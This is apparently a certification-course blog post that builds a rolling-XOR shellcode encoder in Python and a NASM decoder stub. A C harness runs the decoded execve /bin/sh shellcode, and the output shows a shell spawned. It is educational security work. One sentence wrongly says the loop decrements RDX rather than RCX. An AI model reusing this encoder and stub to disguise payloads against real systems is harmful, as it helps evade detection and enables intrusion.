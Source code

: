 Assignment #4 – Custom Encoder
==============================

The objective of this assignment was to create a custom encoding scheme for shellcodes; and write a proof-of-concept that would decode a stack-based `execve` shellcode and executed it.

Encoder design
--------------

After thinking a bit I decided I wanted to design a simple encoding scheme that would xor consecutive bytes of the shellcode. I also decided I wanted a scheme that would make it possible to encode the same input into different outputs.

### The encoder

A diagram for the encoder can be seen below. Each cell is a byte. `n` is an arbitrary byte you can choose so that different encodings can be generated for the same shellcode.

The first byte of the shellcode (`i0`) is xored with `n`, resulting in an encoded byte `o0`. Then, the second byte of the input (`i1`) is xored with the first encoded byte (`o0`) to produce `o1`. And the process repeats until all shellcode bytes have been encoded.

    +-----+-----+-----+-----+-----+
    |  n  | i0  | i1  | i2  | i3  |
    +-----+-----+-----+-----+-----+
      |     ↓     ↓     ↓      ↓
      | ┌--→⊕ ┌--→⊕ ┌--→⊕ ┌---→⊕
      ↓ |   ↓ |   ↓ |   ↓ |    ↓
    +-----+-----+-----+-----+-----+
    |  n  | o0  | o1  | o2  | o3  |
    +-----+-----+-----+-----+-----+

### The decoder

From the diagram of the encoder and knowing that `a XOR b = c` and `c XOR b = a` we notice that by xoring two consecutive bytes of the output we can obtain one byte of the shellcode. For example `o1 XOR o2 = i2`.

Implementation
--------------

### Encoder

I wrote the encoder in Python. The shellcode is passed as an argument. A second argument can be used to pass byte `n`, which if not provided will be chosen randomly. The script produces two different output formats.

    #!/usr/bin/env python3
    import sys
    from random import randint

    shellcode = bytes.fromhex(sys.argv[1].replace('\\x', ''))

    if len(sys.argv) == 3:
        output = [int(sys.argv[2], 0)]
    else:
        output = [randint(1, 255)]

    for b in shellcode:
        xored_byte = b ^ output[-1]
        output.append(xored_byte)

    output = bytes(output)

    print()
    print(''.join(['\\x{:02x}'.format(b) for b in output]))
    print()
    print(','.join(['0x{:02x}'.format(b) for b in output]))

Below an example of encoding a stack-based `execve` shellcode using `n = 0xaa`.

    $ ./seq-xor-encoder.py '\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05' 0xaa

    \xaa\x9b\x5b\xb\x5f\x5\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73

    0xaa,0x9b,0x5b,0xb,0x5f,0x5,0x4d,0xf3,0xdc,0xbe,0xd7,0xb9,0x96,0xb9,0xca,0xa2,0xf4,0xa0,0xff,0xaf,0xf8,0xac,0xf2,0x42,0x79,0x76,0x73

### Decoder

Below you can see a NASM implementation for the decoder.

    global _start

    _start:
        jmp decoder
        encoded_shellcode: db 0xaa, 0x9b,0x5b,0xb,0x5f,0x5,0x4d,0xf3,0xdc,0xbe,0xd7,0xb9,0x96,0xb9,0xca,0xa2,0xf4,0xa0,0xff,0xaf,0xf8,0xac,0xf2,0x42,0x79,0x76,0x73
        shellcode_len: db $ - encoded_shellcode

    decoder:
        xor ecx, ecx
        lea rdx, [rel shellcode_len]
        mov cl, [rdx]
        sub rdx, rcx
        mov al, [rdx]

    decoder_loop:
        inc rdx
        xchg [rdx], al
        xor [rdx], al
        loop decoder_loop
        jmp encoded_shellcode + 1

First we have the encoded shellcode we obtained in the previous section and a byte representing its length. The decoder proper starts by loading the address where the length is stored into RDX. Then the length is loaded into CX. Then RDX is adjusted to point to the start of the shellcode. This could be done directly with a `lea rdx, [rel encoded_shellcode]` but this would take more bytes because the relative address alone would take four bytes (you can try it yourself). Finally we load the byte corresponding to `n` into AL.

Now we have a loop. This loop xors consecutive bytes of the encoded shellcode to obtain the original shellcode. The encoded bytes are overwritten with the decoded ones. Since we are overwriting the encoded byte but need it to decode the next byte, we need to store the former somewhere. By swapping the previous encoded byte (in AL) with the current encoded byte (pointed to by RDX) the former will be kept in AL to be used in the next iteration. Then we can xor the two values and obtain the decoded byte and can move to the next iteration. The same could be accomplished by using an auxiliary register, but the solution with `xchg` results in a shorter decoder.

    decoder_loop:
        inc rdx
        mov bl, [rdx]
        xor [rdx], al
        mov al, bl
        loop decoder_loop

When will the loop end? Each time `loop` is executed RDX is decremented: if it becomes zero, execution continues to the next instruction; otherwise it continues at the label provided to `loop`, which is `decoder_loop` in this case. Once the loop finishes the full shellcode has been decoded. So now we can jump to it and continue execution. You may have noticed in fact the jump is to `encoded_shellcode + 1`. Why? Because we need to skip the byte for `n`, which is not part of the shellcode.

A quick check reveals no null bytes. We're good.

    $ nasm -felf64 seq-xor-decoder.nasm
    $ objdump -M intel -d seq-xor-decoder.o | grep " 00"

Conclusion
----------

All that's left to do is test the decoder.

    $ objdump -d seq-xor-decoder.o | grep -P ":\t" | cut -f2 | tr -d ' \n' | sed -e 's/../\\x&/g'; echo
    \xeb\x1c\xaa\x9b\x5b\x0b\x5f\x05\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73\x1b\x31\xc9\x48\x8d\x15\xf6\xff\xff\xff\x8a\x0a\x48\x29\xca\x8a\x02\x48\xff\xc2\x86\x02\x30\x02\xe2\xf7\xeb\xca

Place it in a testing stub.

    #include <stdio.h>
    #include <string.h>

    char code[] =
    "\xeb\x1c\xaa\x9b\x5b\x0b\x5f\x05\x4d\xf3\xdc\xbe\xd7\xb9\x96\xb9\xca\xa2"
    "\xf4\xa0\xff\xaf\xf8\xac\xf2\x42\x79\x76\x73\x1b\x31\xc9\x48\x8d\x15\xf6"
    "\xff\xff\xff\x8a\x0a\x48\x29\xca\x8a\x02\x48\xff\xc2\x86\x02\x30\x02\xe2"
    "\xf7\xeb\xca";

    int main() {
        printf("length: %lu\n", strlen(code));
        ((int(*)()) code)();
    }

    $ gcc -Wall -z execstack shellcode.c -o shellcode
    $ ./shellcode
    length: 57
    sh-5.0$ whoami
    goncalor

The shellcode was decoded and executed as intended.

That's all. Thank you for reading.

----

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert][SLAE64] certification.

Student ID: SLAE64-1635

[SLAE64]: https://www.pentesteracademy.com/course?id=7
